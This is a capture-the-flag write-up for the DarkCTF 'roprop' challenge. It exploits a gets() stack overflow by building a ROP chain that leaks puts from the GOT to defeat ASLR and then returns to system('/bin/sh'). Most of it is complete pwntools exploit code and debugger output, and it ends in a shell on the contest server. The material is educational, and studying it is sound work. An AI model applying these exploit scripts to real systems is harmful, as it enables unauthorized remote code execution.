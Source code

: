 roprop
=======

In this challenge we have the following binary:
```
./roprop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dd401b9c7e90c2942cef8de389303e68787c664d, not stripped
```

The following is a disassembly of the main function:

```nasm
   0x00000000004008b2 <+0>:	push   rbp
   0x00000000004008b3 <+1>:	mov    rbp,rsp
   0x00000000004008b6 <+4>:	sub    rsp,0x50
   0x00000000004008ba <+8>:	mov    eax,0x0
   0x00000000004008bf <+13>:	call   0x400851 <nvm_init>
   0x00000000004008c4 <+18>:	mov    eax,0x0
   0x00000000004008c9 <+23>:	call   0x40082f <nvm_timeout>
   0x00000000004008ce <+28>:	lea    rdi,[rip+0xe3]        # 0x4009b8
   0x00000000004008d5 <+35>:	call   0x400660 <puts@plt>
   0x00000000004008da <+40>:	lea    rdi,[rip+0xff]        # 0x4009e0
   0x00000000004008e1 <+47>:	call   0x400660 <puts@plt>
   0x00000000004008e6 <+52>:	lea    rax,[rbp-0x50]
   0x00000000004008ea <+56>:	mov    rdi,rax
   0x00000000004008ed <+59>:	mov    eax,0x0
   0x00000000004008f2 <+64>:	call   0x4006a0 <gets@plt>
   0x00000000004008f7 <+69>:	mov    eax,0x0
   0x00000000004008fc <+74>:	leave  
   0x00000000004008fd <+75>:	ret    
```

Here we see there is a call to a gets() at main+64:

```nasm
   ... 
   0x00000000004008f2 <+64>:	call   0x4006a0 <gets@plt>
   ...
```

which is a vulnerable function that performs no bounds checking.  Hence this is a typical buffer overflow.  However, we are unable
to execute traditional shellcode because of the non-executable stack mitigation.  Hence we opt to perform a ROP chain to call system('/bin/sh') in libc.

```
[*] '/root/roprop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Before continuing, lets take over the instruction pointer, we should be able to take over by sending 88 bytes of junk:


```python
#!/usr/bin/python3
from pwn import *

def exploit():
	OFFSET = 88

	# Connect to target, leak puts
	conn = remote('172.17.0.2', 5002)
	conn.recvuntil("He have got something for you since late 19's.\n\n")

	payload  = b""
	payload += b"A" * OFFSET
	payload += p64(0xdeadbeefcafebabe)

	conn.sendline(payload)

if __name__ == "__main__":
	exploit()
```

```nasm
Program received signal SIGSEGV, Segmentation fault.
0x00000000004008fd in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────[ REGISTERS ]──────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x60ff4c437a00 (_IO_2_1_stdin_) ◂— 0xfbad208b
 RDX  0x60ff4c4398d0 (_IO_stdfile_0_lock) ◂— 0x0
 RDI  0x0
 RSI  0x60ff4c437a83 (_IO_2_1_stdin_+131) ◂— 0x4398d0000000000a /* '\n' */
 R8   0x60ff4c4398c0 (_IO_stdfile_1_lock) ◂— 0x0
 R9   0x60ff4c6424c0 ◂— 0x60ff4c6424c0
 R10  0x3
 R11  0x246
 R12  0x4006e0 (_start) ◂— xor    ebp, ebp
 R13  0x7d8344e8dbf0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x4141414141414141 ('AAAAAAAA')
 RSP  0x7d8344e8db18 ◂— 0xdeadbeefcafebabe
 RIP  0x4008fd (main+75) ◂— ret
───────────────────────────────────────[ DISASM ]────────────────────────────────────────
 ► 0x4008fd <main+75>    ret    <0xdeadbeefcafebabe>

────────────────────────────────────────[ STACK ]────────────────────────────────────────
00:0000│ rsp  0x7d8344e8db18 ◂— 0xdeadbeefcafebabe
01:0008│      0x7d8344e8db20 ◂— 0x2000000000
02:0010│      0x7d8344e8db28 —▸ 0x7d8344e8dbf8 —▸ 0x7d8344e8df70 ◂— 0x4c00706f72706f72 /* 'roprop' */
03:0018│      0x7d8344e8db30 ◂— 0x100000000
04:0020│      0x7d8344e8db38 —▸ 0x4008b2 (main) ◂— push   rbp
05:0028│      0x7d8344e8db40 ◂— 0x0
06:0030│      0x7d8344e8db48 ◂— 0x5bef15a8b8f597e8
07:0038│      0x7d8344e8db50 —▸ 0x4006e0 (_start) ◂— xor    ebp, ebp
──────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────
 ► f 0           4008fd main+75
   f 1 deadbeefcafebabe
   f 2       2000000000
   f 3     7d8344e8dbf8
   f 4        100000000
   f 5           4008b2 main
   f 6                0
Program received signal SIGSEGV (fault address 0x0)
pwndbg>
pwndbg> x/i $rip
=> 0x4008fd <main+75>:	ret
pwndbg> x/xg $rsp
0x7d8344e8db18:	0xdeadbeefcafebabe
```

Now that we are able to redirect execution to any part of the program, we will use this to our advantage to forge a call to PUTS@PLT with PUTS@GOT as argument.

When PUTS is first called, the address of PUTS in LIBC is LAZY LOADED and inserted in PUTS@GOT. Hence, if we leak where PUTS is in the remote system's LIBC, we will be able to 
search which LIBC version the target system runs, and we will be able to adjust our exploit code by re-calling MAIN() and sending the second stage exploit, which is a return to system with the argument '/bin/sh', based on the remote target's address space AND remote target's LIBC.  

After sending the leak and determining the remote target's libc, we craft an exploit to find the gadgets needed.

Our final exploit looks like this:

```python
#!/usr/bin/python3
from pwn import *

def leak_puts():
	PUTS_PLT = 0x400660
	PUTS_GOT = 0x601018
	POP_RDI_RET = 0x0000000000400963
	MAIN = 0x00000000004008b2

	r  = b""
	r += p64(POP_RDI_RET)
	r += p64(PUTS_GOT)
	r += p64(PUTS_PLT)
	r += p64(MAIN)

	return r

def gen_system_shell(binsh, system):
	POP_RDI_RET = 0x0000000000400963
	RET = 0x0000000000400646

	r  = b""
	r += p64(RET)		# align stack
	r += p64(POP_RDI_RET)
	r += p64(binsh)
	r += p64(system)

	return r

def exploit():
	libc = ELF("./target_libc.so")
	OFFSET = 88
	PUTS_LIBC = libc.sym['puts']


	# Connect to target, leak puts
	conn = remote('roprop.darkarmy.xyz', 5002)
	conn.recvuntil("He have got something for you since late 19's.\n\n")

	# Stage one, leak LIBC
	payload  = b""
	payload += b"A" * OFFSET
	payload += leak_puts()

	conn.sendline(payload)
	data = conn.recv(1024).rstrip()
	print(data)
	puts_leak = int.from_bytes(data, 'little', signed=False)

	# Adjust libc.address to remote memory space, to bypass ASLR
	print("PUTS LEAK @ 0x{:016x}\n".format(puts_leak))
	libc.address = puts_leak - PUTS_LIBC
	print("LIBC_ADDRESS @ 0x{:016x}\n".format(libc.address))

	# Obtain BINSH and SYSTEM from the libc library we fingerprinted and downloaded
	BINSH = next(libc.search(b'/bin/sh'))
	SYSTEM = libc.sym['system']

	print("BINSH @ 0x{:016x}".format(BINSH))
	print("SYSTEM @ 0x{:016x}".format(SYSTEM))

	# Stage 2, get a shell
	payload  = b""
	payload += b"A" * OFFSET
	payload += gen_system_shell(BINSH, SYSTEM)

	conn.clean()
	conn.sendline(payload)
	conn.interactive()

if __name__ == "__main__":
	exploit()
```

```
$ python3 ./exploit.py 
[*] './target_libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to roprop.darkarmy.xyz on port 5002: Done
b'0\xca\xbd\x8fB\x7f'
PUTS LEAK @ 0x00007f428fbdca30

LIBC_ADDRESS @ 0x00007f428fb5c000

BINSH @ 0x00007f428fd100fa
SYSTEM @ 0x00007f428fbab4e0
[*] Switching to interactive mode

Welcome to the Solar Designer World.

He have got something for you since late 19's.

$ ls -l
total 36
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 bin
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 dev
-rwxr----- 1 0 1000   29 Sep 19 11:19 flag.txt
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib32
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib64
-rwxr-x--- 1 0 1000 8872 Sep 21 17:50 roprop
$ cat ./flag.txt
darkCTF{y0u_r0p_r0p_4nd_w0n}
```
